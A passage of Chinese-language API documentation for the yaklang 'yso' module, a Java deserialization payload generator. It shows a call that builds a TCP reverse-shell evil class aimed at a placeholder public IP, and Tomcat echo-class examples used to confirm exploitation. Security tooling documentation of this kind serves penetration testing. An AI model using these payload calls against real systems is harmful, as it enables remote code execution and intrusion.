 ## 示例代码

### 基础用法

生成并配置TcpReverseShell Java对象

```yaklang
host = '公网IP'
classObject, err := yso.GenerateTcpReverseShellEvilClassObject(host, 8080, additionalOptions...)
```

## 14. `yso.GenerateTomcatEchoClassObject`

## 功能描述

生成一个使用TomcatEcho类模板的ClassObject对象，可选参数用于定制生成的Java对象。

## 参数说明

```
func GenerateTomcatEchoClassObject(options ...GenClassOptionFun) => (ClassObject, error)
```

**请求参数**

- `options` : 一组可选的GenClassOptionFun函数，用于进一步定制生成的Java对象。

**返回类型**

- `r1` : 成功时返回ClassObject对象
- `r2` : 成功时返回nil错误，失败时返回相应错误。

## 示例代码

### 基础用法

body回显

```yaklang
bodyClassObj,_ = yso.GenerateTomcatEchoEvilClassObject(yso.useEchoBody(),yso.useParam("Body Echo Check"))
```

header回显

```yaklang
headerClassObj,_ = yso.GenerateTomcatEchoEvilClassObject(yso.useHeaderParam("Echo","Header Echo Check"))
```

## 15. `yso.GetAllGadget`

## 功能描述

